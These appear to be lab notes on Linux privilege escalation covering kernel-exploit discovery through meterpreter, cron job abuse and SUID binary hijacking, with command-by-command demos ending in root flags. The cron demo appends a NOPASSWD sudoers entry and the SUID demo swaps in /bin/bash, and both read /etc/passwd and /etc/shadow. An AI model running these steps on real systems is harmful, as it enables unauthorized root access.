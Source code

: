 # Linux Kernel Exploits
- Kernel exploits on Linux will typically target vulnerabilites in the Linux kernel to execute arbitrary code in order to run privileged system commands or to obtain a system shell.
- This process will differ based on the Kernel version and distribution being targeted and the kernel exploit being used.
- Privesc on Linux systems will typically follow the following methodology:
  - Identifying kernel vulnerabilities
  - Downloading, compiling and transferring kernel exploits onto the target system.

## Tools & Environment
- Linux-Exploit-Suggester - This tool is designed to assist in detecting security deficiencies for given Linux kernel/Linux-based machine. It assesses (using heuristics methods) the exposure of the given kernel on every publicly known Linux kernel exploit.

## Demo: Linux Kernel Exploits

After we obtained a meterpreter session, we enumerate info:

`sysinfo`

`getuid`

www-data is a service account which is often used on linux system which host a webserver.
`shell`

`/bin/bash -i`

`cat /etc/passwd`

`sudo apt-get update`

We use the Linux Exploit Suggester:

meterpreter: `CD /TMP`

meterpreter: `ls`

meterpreter: `upload ~/Desktop/Linux-Enum/les.sh`

meterpreter: `shell`

meterpreter: `ls`

meterpreter: `chmod +x les.sh`

meterpeter: `ls -alps`

meterpeter: `./les.sh`

Gives us Exploits and OS information. We download the exploit from the website. Navigate to the Exploit download.

# Exploiting misconfigured Cron Jobs

## Understanding Cron Jobs

    Cron: A time-based service in Linux used to schedule and automate tasks.
    Cron Job: A task scheduled to run via Cron, such as backups or system upgrades.
    Crontab File: The configuration file where Cron jobs are stored.

## Privilege Escalation Using Cron Jobs

    Cron Jobs as Root: If misconfigured, Cron jobs running as "root" can be exploited for root access.

## Demo: Using Cronjob

  `whoami`
  Displays the current user’s username.

  `groups student`
  Shows the groups that the "student" user belongs to.

  `cat /etc/passwd`
  Displays the content of the /etc/passwd file, revealing user account information.

  `crontab -l`
  Lists the Cron jobs scheduled for the current user.

  `ls -al`
  Lists all files and directories in the current directory with detailed information.

  `cat message`
  Displays the content of the "message" file.

  `pwd`
  Prints the current working directory.

  `cd /`
  Changes the directory to the root (/) of the filesystem.

  `grep -rnw /usr -e "/home/student/message"`
  Recursively searches for the string "/home/student/message" in files under /usr.

  `ls -al /tmp`
  Lists all files in the /tmp directory with detailed information.

  `cat /tmp/message`
  Displays the content of the "message" file in the /tmp directory.

  `ls -al /usr/local/share/copy.sh`
  Lists detailed information about the copy.sh script.

  `cat /usr/local/share/copy.sh`
  Displays the content of the copy.sh script.

  `printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' >
/usr/local/share/copy.sh`
  Creates or modifies the copy.sh script to add a command that gives the "student" user root privileges.

  `sudo -l`
  Lists the commands that the current user can run with sudo.

  `sudo su`
  Switches to the root user if allowed by sudo.

  `whoami`
  Confirms the current user, which should now be root.

  `cd /root`
  Changes the directory to the root user's home directory.

  `ls`
  Lists files in the current directory.

  `cat flag`
  Displays the content of the "flag" file.

  `crontab -l`
  Re-checks the scheduled Cron jobs to verify any changes.

# Exploiting SUID Binaries
- In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialised permissions that can be utilized in specific situations. One of these access permissions is the SUID (Set Owner User ID) permission.
- When applied, this permission provides users with the ability to execute a script or binary with the   of the file owner as opposed to the user that is running the script or binary.
- SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with "root" permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if inproperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.
- This is the functionality that we will be attempting to exploit in order to elevate our privs, however, the success of our attack will depend on the following factors:
  - Owner of the success of our attack will depend on the following factors:
    - Owner of the SUID binary - Given that we are attempting to elevate our privs, we will only be exploiting SUID binaries that are owned by the "root" user or other priveleged users.
    - Access permissions - We will require executeable permissions in order to execute the SUID binary.
   
## Demo: Exploiting SUID Binaries

`whoami`

`groups student`

`pwd`

`ls -al`

We have 2 binaries, greetins and welcome s: suid permission

`./greetings`

`./welcome`

We learn more about the welcome binary:

`file welcoem`

`strings welcome`

We get the share object (1.) etc. it also calls up the greetings binary. We modify the greetings binary:

`rm greetings`

we create our own binary:

`cp /bin/bash greetings`

`ls`

Because the welcome binary calls up the greetings binary it will execute bash with root

`./welcome`

We got root, because the greetings binary is simply just a bash binary

`id`

`cat /etc/shadow`




